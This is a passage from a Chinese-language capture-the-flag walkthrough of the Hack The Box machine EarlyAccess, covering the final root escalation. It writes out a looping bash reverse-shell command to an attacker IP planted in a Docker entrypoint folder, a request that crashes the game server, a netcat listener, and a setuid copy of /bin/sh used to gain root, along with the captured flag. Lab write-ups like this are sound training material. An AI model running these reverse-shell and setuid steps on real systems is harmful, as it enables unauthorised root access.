因此，我们可以对 earlyaccess 服务器上的文件夹进行写访问，该文件夹安装在游戏服务器上。让我们放一个反向外壳进去，然后让游戏崩溃。我们需要循环执行此操作，因为有一个清理任务正在运行，它每分钟都会清空 docker-entrypoint.d 文件夹:

```
drew@earlyaccess:~$ while true; do echo "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1" > /opt/docker-entrypoint.d/pencer.sh && chmod +x /opt/docker-entrypoint.d/pencer.sh && sleep 1; done
```

让它保持运行状态，并启动另一个 SSH 会话，如 drew to earlyaccess.htb 所示。

```
drew@earlyaccess:/opt/docker-entrypoint.d$ curl -X POST -d "rounds=-3" http://172.19.0.3:9999/autoplay
curl: (52) Empty reply from server
```

# 根访问

在你的 Kali 上有一个 netcat 监听器等待，当上面的程序使游戏服务器崩溃时，我们会看到它以 root 用户的身份连接到我们:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 59062
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@game-server:/usr/src/app#
```

现在我们是游戏服务器的 root 用户，我们可以将/bin/sh 复制到共享文件夹，并给它一个粘性位:

```
root@game-server:/# cd docker-entrypoint.d
root@game-server:/docker-entrypoint.d# cp /bin/sh . && chmod u+s sh
```

最后，回到早期访问，作为 drew，我们可以升级到 root 并获取标志:

```
drew@earlyaccess:/opt/docker-entrypoint.d$ ls -lsa
  4 -rwxr-xr-x 1 root root    100 Feb  6 13:23 node-server.sh
  4 -rwxr-xr-x 1 drew drew     42 Feb  6 13:23 pencer.sh
116 -rwsr-xr-x 1 root root 117208 Feb  6 13:23 shdrew@earlyaccess:/opt/docker-entrypoint.d$ ./sh
#
# id
uid=1000(drew) gid=1000(drew) euid=0(root) groups=1000(drew)
#
# cat /root/root.txt
913303c08fc7d61d3b3a8e31db502e01
```

完成了。对我来说，这真的是一个很难的盒子，但很愉快，我在这个过程中学到了一些东西。希望这个演练也能帮助你。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 2 月 8 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-earlyaccess)*。*